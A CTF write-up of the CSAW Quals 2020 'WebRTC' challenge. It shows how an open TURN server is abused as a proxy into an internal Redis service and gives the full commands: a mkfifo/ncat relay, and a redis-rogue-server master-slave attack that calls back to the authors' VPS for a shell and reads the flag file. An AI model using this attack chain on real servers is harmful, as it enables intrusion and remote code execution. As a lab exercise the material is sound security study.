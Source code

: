 # CsawQuals2020 WebRTC 


# WEB real time chat

{{<figure src="challenge.png" alt="page" style="zoom:25%;" title="Challenge Info">}}

## Writeup Summary

- Challenge description
- Enumeration

### Challenge description

`I started playing around with some fancy new Web 3.1 technologies! This RTC tech looks cool, but there's a lot of setup to get it working... I hope it's all secure.`

`http://web.chal.csaw.io:4955`

they also included some files: `Dockerfile` , `supervisord.conf` and `app.py`.
supervisord.conf:

```
[supervisord]
nodaemon=true

[program:gunicorn3]
command=gunicorn3 --workers=10 -b 0.0.0.0:5000 app:app
autorestart=true
user=www

[program:coturn]
command=turnserver
autorestart=true
user=www

[program:redis]
command=timeout 60s redis-server --bind 0.0.0.0
autorestart=true
user=www

```

Dockerfile:

```
FROM ubuntu:18.04

RUN adduser --disabled-password --gecos '' www

RUN apt-get update && apt-get install -y coturn redis python3 python3-pip gunicorn3 supervisor

WORKDIR app
COPY requirements.txt .
RUN pip3 install -r requirements.txt

COPY flag.txt /
RUN chmod 444 /flag.txt

COPY supervisord.conf /etc/supervisor/conf.d/supervisord.conf
RUN echo 'min-port=49000' >> /etc/turnserver.conf
RUN echo 'max-port=49100' >> /etc/turnserver.conf

COPY app.py .
COPY static static

EXPOSE 3478
EXPOSE 5000

CMD ["supervisord"]

```

### Enumeration

At first, we took a look at those files, which show up that there are 3 servers running, a Redis server (not exposed to external), gunicorn (flask web app server), and turn ( for webrtc ).

then we took a look at the web app, basically the frontend and what does it do,

{{<figure src="frontend.png" alt="page" style="zoom:25%;" title="Frontend">}}

we found that it's sending requests to the flask app (the API) (OBVIOUSLY), and the file `rtc.js` is the source of this request, we checked it out, and after reading the some code we found the turn communication config, the turn host `web.chal.csaw.io:3478`, the username and password (empty):

```js
const iceConfiguration = {
  iceServers: [
    {
      urls: "turn:web.chal.csaw.io:3478",
      username: "",
      credential: "",
    },
  ],
  // Doesn't work to force relay only transport, something must be busted...
  //iceTransportPolicy: "relay"
};
```

We were new to webRTC, so we started googling and trying to learn about it, and about the turn server and the attacks vectors we can apply on it, we tried also to find a vulnerabilities in the web API but we get nothing, then we found a really interesting article `https://www.rtcsec.com/2020/04/01-slack-webrtc-turn-compromise/#a-very-brief-introduction-to-the-turn-protocol` talking about how to abuse a turn server and get access to internal services like Redis in our case, a really nice article and attack they are using, it suits our case very well, but there is a problem, they are using an internal tool called `stunner` that we couldn't find, so we just start searching for alternatives, we found a PoC for the same attack called `turner: https://github.com/staaldraad/turner` by `staaldraad`, after we found this we tried very hard to make it working even with the a lot struggles (the internet connection in our country was so bad :/ ) even tho we make it, we started testing if it's working,

run turner with turner config we found earlier:
`./turner -server web.chal.csaw.io:3478 -u '' -p ''`

send a request to our vps:
`curl -x http://localhost:8080 http://x.x.x.x`

this worked so well, so we used the browser also to load the app `http://0.0.0.0:5000` using the proxy and worked just fine.

now we are sure the proxy is working but how we can connect to Redis?!

we found that we can use an HTTP proxy with ncat, so we crafted really nice chaining:
`rm -rf /tmp/f;mkfifo /tmp/f;cat /tmp/f|ncat -lkp 1337 2>&1 |ncat --proxy-type http --proxy localhost:8080 0.0.0.0 6379 > /tmp/f`

this is basically connect to redis service on host: `0.0.0.0`, port :`6379` using proxy `http://localhost:8080` and forward it that to the port: `1337`

we tested the connection using simple command Redis command `INFO`:
`{printf "INFO\r\n"; sleep 1} | nc localhost 1337 -vvv`
worked perfectly!!!

we also tried to connect using `redis-cli` but it didn't work, it started sending some random data, so we settled on the raw commands sending!

In this step we had to get rce or read a file (flag), we had two options, crafting rce by ourself using raw Redis commands (our last option :3) or use tools, the redis-cli didn't work so we couldn't use the regular Redis attack using the config command,

we found many tools, that uses the master-slave attack we tried some but I'm gonna mention only the tool that worked for us:
https://github.com/n0b0dyCN/redis-rogue-server

Making this tool working was an adventure, as I mentioned before we had an internet problem in our country :/ and the ssh wasn't even working to get into our VPS,
So here is how it has been done:

- we used digitalocean web console to set up the Redis `redis-rogue-server`.
- we had already turner connected and also the ncat connect to Redis as I mentioned before.
- the last step was to connect the Redis service from our local port `1337` to `redis-rogue-server` in our VPS, we used ngrok.

```
./redis-rogue-server.py --rhost [ngrok url] --rport [ngrok port] --lhost [vps public ip]
```

then choose the Interactive shell: `cat /flag.txt`
`flag{ar3nt_u_STUNned_any_t3ch_w0rks_@_all?}`

{{<figure src="flag.png" alt="page" style="zoom:60%;" title="Flag">}}

in this challenge, we learned a lot, it's a good challenge that we really loved, big thanks to CSAW CTF 2020 organizers.

